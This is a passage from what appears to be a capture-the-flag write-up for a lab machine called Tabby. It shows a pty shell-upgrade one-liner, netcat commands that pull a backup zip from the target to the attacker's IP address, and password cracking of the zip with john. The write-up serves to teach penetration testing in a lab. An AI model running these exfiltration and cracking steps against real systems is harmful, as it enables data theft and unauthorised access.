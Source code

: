 ```
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
```

Let's look around where we landed. Enumerating a bit leads us to the `/var/www/html/files` directory. Here, we find a zipped backup named `16162020_backup.zip`. Let's use `netcat` to download this to our machine and give it a look.

On our machine, we'll listen for a callback with the file.

```
$ nc -lp 5555 > backup.zip
```

On the _Tabby_ box let's run the following command to send it.

```
$ nc -w 3 10.10.14.121 5555 < 16162020_backup.zip
```

Attempting to open the zip prompts for a password. We can extract password hashes with `zip2john` or one of the various online extractors. I had problmes with `zip2john`, so I went with an [online tool](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php).

![](images/zip-hash.png)

We'll save the output into a file named `zip.hash` and use john to crack it.

![](images/john.png)

